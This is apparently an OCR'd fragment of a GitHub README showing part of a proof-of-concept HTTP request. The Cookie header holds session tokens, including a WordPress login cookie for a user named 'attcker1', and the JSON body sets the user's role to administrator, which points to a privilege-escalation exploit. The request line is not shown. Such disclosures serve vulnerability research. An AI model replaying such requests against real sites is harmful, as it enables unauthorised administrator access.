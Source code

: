         Cookie: grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821SS
        Content-Type: application/json; charset=UTF-8
        Content-Length: 28
        {"roles": "administrator"}
        ```
     ![1748229231842](image/readme/1748229231842.png)
     ![1748229248038](image/readme/1748229248038.png)
